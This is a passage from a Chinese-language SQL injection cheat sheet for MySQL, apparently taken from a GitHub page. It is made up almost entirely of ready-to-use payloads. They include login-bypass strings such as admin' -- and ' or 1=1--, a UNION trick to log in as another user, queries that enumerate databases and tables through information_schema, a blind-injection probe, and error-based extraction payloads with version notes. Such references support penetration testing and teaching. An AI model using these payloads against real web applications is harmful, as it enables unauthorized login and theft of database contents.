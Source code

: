     ```sql
    SELECT /*!32302 1/0, */ 1 FROM tablename
    ```

### 字符串编码

* `ASCII()`：返回字符的 ASCII 码值
* `CHAR()`：把整数转换为对应的字符

## 后台万能密码

* `admin' --`
* `admin' #`
* `admin'/*`
* `' or 1=1--`
* `' or 1=1#`
* `' or 1=1/*`
* `') or '1'='1--`
* `') or ('1'='1--`
* 以不同的用户登陆 `' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--`

## 注入语句备忘

### 数据库名

```sql
SELECT database();
SELECT schema_name FROM information_schema.schemata;
```

### 表名

*   union 查询

    ```sql
    --MySQL 4版本时用version=9，MySQL 5版本时用version=10
    UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE version=10;   /* 列出当前数据库中的表 */
    UNION SELECT TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA=database();   /* 列出所有用户自定义数据库中的表 */
    SELECT table_schema, table_name FROM information_schema.tables WHERE table_schema!='information_schema' AND table_schema!='mysql';
    ```
*   盲注

    ```sql
    AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables > 'A'
    ```
*   报错

    ```sql
    AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),FLOOR(RAND(0)*2))) (@:=1)||@ GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),!@) HAVING @||MIN(@:=0); AND ExtractValue(1, CONCAT(0x5c, (SELECT table_name FROM information_schema.tables LIMIT 1)));
    -- 在5.1.5版本中成功。
    ```
